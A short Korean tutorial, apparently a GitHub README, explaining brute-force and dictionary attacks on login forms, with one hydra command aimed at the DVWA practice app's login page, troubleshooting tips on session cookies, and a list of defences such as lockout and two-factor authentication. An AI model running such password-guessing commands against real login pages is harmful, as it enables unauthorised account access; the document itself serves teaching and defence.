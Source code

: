 # bruteforce attack이란?

brute force는 무차별 대입을 말한다.   
1000개의 경우의 수가 있고 1개의 답이있으면 1000번 돌려서 답을 찾는 알고리즘을 말한다.  
그것을 이용한 해킹공격을 brute force attack이라 한다.  

    
# bruteforce attack 예제

medusa, hydra, 그외 등 다양한 도구가 있지만   
대표적 bruteforce attack tools 중 하나인 hydra로 함  

    
```bash
hydra -L users.txt -P passwords.txt (ip) http-get-form "/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie:PHPSESSID=(val); security=low"
```
참고로 위 값을 그대로 입력해도 결과가 달라지거나   
툴이 제대로 작동하지않을수 있음, 특히 form이 환경에 따라 좀 달라지기도 하기에 주의해야됨


# 주의사항

brute force는 값을 잘못입력하면은 결과가 이상하게 나오는데  
이건 보통 세션아이디를 잘못입력하거나 할떄 발생함  

![failed](./img/failed.png)

    즉 위는 실패고

![success](./img/success.png)

    이게 brute force가 잘 작동한 경함

# 대표적으로 대응 방법
1. 일정시간 반복된 로그인 실패 시도시 차단
2. 정해진 로그인 실패 횟수를 초과하면 계정을 잠금
3. 비밀번호 뿐만 아니라 id에 대한 실패 횟수도 정의해 차단
4. 2-factor 인증, OTP 사용, 매크로 프로그램 추가

# 여담 
참고로 지금 쓰는 공격은 bruteforce라 말하긴 힘듬 
단순 예제라서 보기 편하게 password.txt와 id.txt 만든거라
정확하겐 사전 대입 공격(Dictionary Attack)임
어차피 레인보우테이블이나 사전대입 공격으로 경우의 수를 줄여서 공격하는게 현대의 공격기법이다.
